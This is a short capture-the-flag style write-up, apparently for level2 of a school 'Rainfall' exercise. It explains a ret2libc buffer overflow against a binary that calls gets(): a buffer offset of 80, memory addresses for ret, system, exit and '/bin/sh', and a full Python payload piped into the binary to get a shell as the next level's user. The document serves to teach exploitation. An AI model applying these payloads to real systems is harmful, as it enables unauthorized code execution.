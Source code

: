 # Level2

We can see, level1 waits some input and return it

![](/Users/a19523132/school/Rainfall/level2/Ressources/img/level2_launch.png)

Okay, let's launch the binary via [gdb](Ressources/gdb.md) and check all functions in it

Like the previous this one uses `gets`, so we cando a buffer overflow attack.

Do it via [ret2libc attack](??), we need to find:

- Buffer offset
- Addresses of `system`, `exit` and one ret instruction
- Address of the string `/bin/sh`

Once we get those, we use the buffer overflow to override the list of instruction stored in EIP register once again 
to execute a `system("/bin/sh"); exit();`. We determine it through gdb

- Offset = 80
- ret = 0x0804853e
- system = 0xb7e6b060
- exit = 0xb7e5ebe0
- /bin/sh = 0xb7f8cc58

The attack has the next steps: 

1. Induce the overflow
2. Trigger `ret` instruction
3. Call `system`
4. Call `exit`
5. Launch `/bin/sh`

Do that by pushing their addresses in this order on top of EIP.
Using the cat trick like in previous level, we'll get a working shell running as level3.

`(python -c "print '\x90' * 80 + '\x08\x04\x85\x3e'[::-1] + '\xb7\xe6\xb0\x60'[::-1] + '\xb7\xe5\xeb\xe0'[::-1] + '\xb7\xf8\xcc\x58'[::-1]"; cat) | ./level2`

![](/Users/a19523132/school/Rainfall/level2/Ressources/img/level3.png)
